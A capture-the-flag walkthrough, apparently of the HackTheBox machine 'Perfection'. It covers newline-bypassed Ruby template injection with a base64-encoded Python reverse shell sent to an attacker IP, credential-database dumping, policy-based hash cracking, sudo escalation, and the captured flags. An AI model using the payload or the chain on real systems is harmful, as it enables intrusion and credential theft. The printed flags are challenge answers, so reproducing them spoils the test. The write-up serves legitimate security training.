 *Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Mon Mar 18 09:38:08 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Mar 18 09:38:54 2024 -- 1 IP address (1 host up) scanned in 46.30 seconds
```

```shell
$ cat nmap_servicesversions.txt
# Nmap 7.94SVN scan initiated Mon Mar 18 09:39:43 2024 as: nmap -p22,80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two open ports: 22 and 80. Let's see webapp at 80 port.

![](img/perfection1.png)

Visiting "About" section, we have managed to find two users: "Tina Smith" web developer and "Susan Miller" sysadmin.

![](img/perfection2.png)

Webapp allows to calculate a weighted grade.

![](img/perfection3.png)

Let's play with "Weighted Grade Calculator" API. Apart from this API, there aren't other entry points. Fuzzing web doesn't bring any good results. We check if API is vulnerable to *command injection*.  After many attempts, we notice that input is sanitized in some way. In some cases, we get the message "Malicious input blocked". It seems that "%0A" character is not blocked. "%0A" is one of the characters used to test command injection payloads.

![](img/perfection4.png)

After a lot of tests with command injection payload where are stucked. We give a look to the forum and we read a *hint*: "*You must calculate 7 times 7 in a new line*". Hint seems very comprensible: it is a newline injection with *Server Side Template Injection*.

From the HTTP "Server" header in the response, we know that the server side uses Ruby. From [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), there is a list of SSTI payloads for each backend framework. We are interested in those for Ruby. Let's try out. Testing one of the payloads confirmed the vulnerability. SSTI allows RCE.

![](img/perfection5.png)

Now it is time to get a shell. We activate *netcat listener* on port 4444. We execute the follow request:

```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Type: application/x-www-form-urlencoded

category1=X1&grade1=50&weight1=90&category2=N/A&grade2=0&weight2=0&category3=N/A&grade3=0&weight3=0&category4=N/A&grade4=0&weight4=0&category5=N/A%0A<%25%3d+IO.popen('echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEzIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3d%3d|base64+-d|bash').readlines()++%25>&grade5=50&weight5=10
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.13  netmask 255.255.254.0  destination 10.10.14.13
        inet6 fe80::6577:2945:6c53:4f22  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100b  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...

connect to [10.10.14.13] from (UNKNOWN) [10.10.11.253] 34104
susan@perfection:~/ruby_app$                                                            susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

We are IN.

***user.txt***: 3470838729a4fa53b1d9b68554a82b63

![](img/perfection6.png)

One aspect is very interesting: "susan" user is a *sudoers*. We need to know *susan*'s password to escalate to *root*. In susan's home directory, under "Migration" folder, there is a sqlite3 database. "sqlite3" binary is installed in the machine.

```shell
susan@perfection:~$ ls -l
ls -l
total 12
drwxr-xr-x 2 root root  4096 Oct 27 10:36 Migration
drwxr-xr-x 4 root susan 4096 Oct 27 10:36 ruby_app
-rw-r----- 1 root susan   33 Mar 19 13:33 user.txt
susan@perfection:~$ ls -la Migration
ls -la Migration
total 16
drwxr-xr-x 2 root  root  4096 Oct 27 10:36 .
drwxr-x--- 7 susan susan 4096 Feb 26 09:41 ..
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
susan@perfection:~$ file Migration/pupilpath_credentials.db
file Migration/pupilpath_credentials.db
Migration/pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
susan@perfection:~$ which sqlite3
which sqlite3
/usr/bin/sqlite3
```

The analysis of the database 'pupilpath_credentials.db' is deepened.

```shell
susan@perfection:~/Migration$ sqlite3 -h
sqlite3 -h
sqlite3: Error: unknown option: -h
Use -help for a list of options.
susan@perfection:~/Migration$ sqlite3
sqlite3
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open pupilpath_credentials.db
.open pupilpath_credentials.db
sqlite> .databases
.databases
main: /home/susan/Migration/pupilpath_credentials.db r/o
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

Inside "users" table we are able to found a lot of users with their password. We try to crack them. Unfortunately, hashcat and *rockyou* cant crack them. It's *linpeas* time. Linpeas provides us an indication.

![](img/perfection7.png)

"/var/mail/susan" is owned by root but readable by us.

```shell
susan@perfection:/tmp$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

In the message for Susan, there is specification about new password policy. In the case of Susan, his password should be "susan_nasus_{randomly generated integer between 1 and 1,000,000,000}". Let's built wordlist for cracking his password writing the following Python script:

```python
with open('numbers.txt', 'w') as numbers:
    for i in range(1, 1000000001):
        num = f"susan_nasus_{str(i)}\n"
        if (i % 1000000 == 0):
            print(f"Current: {num}")
        numbers.write(num)
```

![](img/perfection8.png)

```shell
kali@kali:~$ ls -lh numbers.txt
-rwxrwxrwx 1 kali kali 22G Mar 20 11:08 numbers.txt
kali@kali:$ head numbers.txt
susan_nasus_1
susan_nasus_2
susan_nasus_3
susan_nasus_4
susan_nasus_5
susan_nasus_6
susan_nasus_7
susan_nasus_8
susan_nasus_9
susan_nasus_10
kali@kali:$ tail numbers.txt
susan_nasus_999999991
susan_nasus_999999992
susan_nasus_999999993
susan_nasus_999999994
susan_nasus_999999995
susan_nasus_999999996
susan_nasus_999999997
susan_nasus_999999998
susan_nasus_999999999
susan_nasus_1000000000
```

Hash of password is 64 characters long so it seems to be an SHA256 hash.

```shell
kali@kali:$ cat susan.txt | wc -c
65
```

We can use hashcat with 1400 mode to crack hash.

```shell
kali@kali:$ hashcat -m 1400 susan.txt numbers.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
```

![](img/perfection9.png)

Susan's password is "susan_nasus_413759210". Let's try out.

```shell
susan@perfection:/tmp$ sudo su
sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/tmp# whoami
whoami
root
```

It works perfectly.

***root.txt***: 5e6ca082471f15ef10cc3eb7a6e35195

![](img/perfection10.png)
